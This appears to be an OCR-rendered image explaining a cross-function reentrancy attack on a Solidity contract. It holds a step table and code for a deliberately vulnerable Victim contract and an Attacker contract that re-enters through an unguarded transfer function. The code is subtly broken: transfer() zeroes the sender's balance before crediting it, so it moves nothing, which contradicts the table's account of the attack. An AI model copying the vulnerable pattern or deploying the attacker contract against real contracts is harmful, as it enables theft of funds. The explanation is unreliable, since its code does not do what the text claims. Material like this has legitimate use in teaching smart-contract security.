 | **Step** | **Action**                                                                               |
|----------|------------------------------------------------------------------------------------------|
| 1        | Attacker calls `Victim.withdraw()`                                                       |
| 2        | `Victim.withdraw()` sets `locked = true` (reentry guard)                                |
| 3        | Victim sends ETH to Attacker, triggering `receive()`                                    |
| 4        | Attacker's `receive()` calls `Victim.transfer()` (not guarded)                          |
| 5        | `transfer()` runs with Attacker's balance still intact                                  |
| 6        | Attacker manipulates balances via `transfer()` before `withdraw()` completes            |
| 7        | `withdraw()` completes, setting Attacker's balance = 0 too late                         |

```solidity
contract Victim {
    mapping(address => uint) private balances;
    bool locked;

    modifier noReentrant() {
        require(!locked, "ReentrancyGuardError");
        locked = true;
        _;
        locked = false;
    }

    function withdraw() public noReentrant {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }

    function transfer(address to) public {
        balances[msg.sender] = 0;
        balances[to] += balances[msg.sender];
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}

contract Attacker {
    Victim victim;
    uint256 private initialDeposit;

    constructor(address _vulnerable) {
        victim = Victim(_vulnerable);
    }

    function attack() public payable {
        initialDeposit = msg.value;
        victim.deposit{value: msg.value}();
        victim.withdraw();
    }

    receive() external payable {
        if (address(victim).balance > initialDeposit) {
            victim.transfer(tx.origin);
        }
    }
}
```